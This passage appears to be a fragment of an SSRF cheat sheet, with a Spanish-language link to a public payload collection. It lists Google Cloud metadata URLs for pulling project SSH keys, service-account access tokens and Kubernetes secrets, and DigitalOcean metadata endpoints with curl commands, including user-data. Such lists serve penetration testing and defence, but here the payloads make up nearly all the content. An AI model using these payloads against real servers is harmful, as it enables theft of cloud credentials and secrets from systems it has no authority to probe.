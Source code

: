 Interesting files to pull out:

-   SSH Public Key `http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys?alt=json`
-   Get Access Token : `http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token`
-   Kubernetes Key : `http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/kube-env?alt=json`

### DIGITAL OCEAN

```bash
curl http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1.json
http://169.254.169.254/metadata/v1/ 
http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1/user-data
http://169.254.169.254/metadata/v1/hostname
http://169.254.169.254/metadata/v1/region
http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address

All in one request:
curl http://169.254.169.254/metadata/v1.json | jq

```

Para mas informacion:

[SSRF]](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

